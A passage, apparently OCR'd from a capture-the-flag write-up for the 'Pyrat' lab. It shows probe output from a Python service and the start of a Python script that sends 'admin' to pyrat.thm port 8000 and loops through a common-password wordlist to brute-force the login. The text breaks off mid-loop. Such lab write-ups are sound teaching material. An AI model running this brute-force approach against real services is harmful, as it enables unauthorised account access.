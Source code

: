 ```python
Testing: add
Response from add: name 'add' is not defined

Testing: address
Response from address: name 'address' is not defined

Testing: admin
Response from admin: Password:

```

However, the target server required a password. The following script would be used to crack the password within a wordlist:

```python
import socket
import time

# Define the target host and port
HOST = "pyrat.thm"
PORT = 8000

# File containing the passwords
password_file = "/usr/share/seclists/Passwords/2023-200_most_used_passwords.txt"

# Set a timeout duration (in seconds)
TIMEOUT = 5

def socket_connect():
    # Establish a socket connection
    try:
        client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client_socket.settimeout(TIMEOUT)  # Set timeout
        client_socket.connect((HOST, PORT))
        print(f"Connected to {HOST}:{PORT}")
        return client_socket
    except socket.timeout:
        print(f"Connection to {HOST}:{PORT} timed out.")
        return None
    except Exception as e:
        print(f"Failed to connect: {e}")
        return None

def login(client_socket):
    # Send the initial payload as 'admin'
    client_socket.sendall(b"admin\n")
    print("Sent username: admin")

    # Read server response after sending the username
    try:
        response = client_socket.recv(1024)
        print(response.decode('ascii'))
    except socket.timeout:
        print("Timeout during login step. No response from the server.")
        return False
    return True

def try_passwords(client_socket):
    # Open the password file
    with open(password_file, 'r') as f:
        for password in f:
            password = password.strip()  # Clean up newline characters
            if not password:
                continue
```